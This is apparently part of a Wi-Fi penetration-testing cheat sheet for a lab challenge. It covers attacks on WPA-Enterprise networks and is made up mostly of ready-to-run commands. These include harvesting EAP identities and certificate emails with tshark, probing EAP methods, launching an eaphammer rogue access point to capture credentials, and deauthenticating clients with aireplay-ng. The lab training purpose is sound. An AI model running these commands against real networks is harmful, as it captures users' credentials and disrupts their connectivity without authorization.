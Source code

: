 ## Enterprise Networks (MGT)

### Passive Reconnaissance

#### Identity Collection

```bash
# Monitor enterprise network
airodump-ng wlan0mon -w ~/wifi/enterprise -c [CHANNEL] --wps

# Extract identities with tshark
tshark -r ~/wifi/enterprise-01.cap -Y '(eap && wlan.ra == [AP_MAC]) && (eap.identity)' -T fields -e eap.identity

# Alternative: Use wifi_db
cd /root/tools/wifi_db
python3 wifi_db.py -d wifichallenge.SQLITE ~/wifi/
```

#### Certificate Analysis

```bash
# Extract certificates with tshark
tshark -r ~/wifi/enterprise-01.cap -Y "wlan.bssid == [AP_MAC] && ssl.handshake.type == 11" -V

# Extract email addresses from certificates
tshark -r ~/wifi/enterprise-01.cap -Y "wlan.bssid == [AP_MAC] && x509sat.IA5String" -T fields -e x509sat.IA5String
```

### EAP Method Discovery

```bash
cd /root/tools/EAP_buster/
bash ./EAP_buster.sh [NETWORK_NAME] '[DOMAIN\USERNAME]' wlan1
```

### Rogue AP Attacks

#### Basic Enterprise Rogue AP

```bash
cd /root/tools/eaphammer

# Generate self-signed certificate
python3 ./eaphammer --cert-wizard

# Launch rogue AP
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid [NETWORK_NAME] --creds --negotiate balanced

# Deauth clients (in parallel)
iwconfig wlan0mon channel [CHANNEL]
aireplay-ng -0 0 -a [AP_MAC] wlan0mon -c [CLIENT_MAC]
```
